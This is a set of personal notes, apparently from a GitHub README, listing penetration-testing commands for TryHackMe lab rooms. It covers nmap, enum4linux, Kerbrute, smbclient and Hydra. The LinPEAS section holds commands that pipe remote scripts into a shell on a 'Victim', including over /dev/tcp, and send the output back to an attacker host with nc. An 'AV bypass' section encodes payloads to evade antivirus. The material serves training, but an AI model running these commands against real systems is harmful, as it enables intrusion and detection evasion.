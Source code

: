 ## Basic notes for TryHackMe.com rooms and training.

Explain shell has been great for learning.
https://explainshell.com/

paste an example of a command and it will tell you what the switches mean. Very handy.

### Enumeration Tools

## Nmap
https://nmap.org/

#### Cheatsheet
https://highon.coffee/blog/nmap-cheat-sheet/

Scan hosts and ports

basic examples

```nmap $IP -vvv -Pn -sV -oN nmap-output.txt```

narrow it down to open ports.

```nmap $IP -vvv -p 135,139,445,88,3389 -sC -sV -oN nmap-script-scan.txt```

## enum4linux
https://github.com/CiscoCXSecurity/enum4linux

#### Cheatsheet
https://highon.coffee/blog/enum4linux-cheat-sheet/

#### basic examples

```num4linux -a $IP```

## Kerbrute
https://github.com/ropnop/kerbrute

#### Cheatsheet
https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/

```./kerbrute userenum --dc 10.10.XX.XX -d spookysec.local userlist.txt```

## SMBClient

#### Cheatsheet
https://github.com/irgoncalves/smbclient_cheatsheet

list shares

```smbclient -L $IP -U '$USERNAME'```

connect to a share

```smbclient //$IP/$PATH -U '$USERNAME'```

## Hydra - password crack

Used in a few tryhackme rooms. 

basic example for ssh

```hydra -l jan -P /usr/share/wordlists/rockyou.txt $IP ssh'```

# LinPeas
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## Quick Start

Find the latest versions of all the scripts and binaries in the releases page.

From github
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Local network
```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```
Without curl
```
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
Excute from memory and send output back to the host
```
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
Output to file
```
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```
Use a linpeas binary
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```
## AV bypass

open-ssl encryption
```
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim
```
Base64 encoded
```
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```
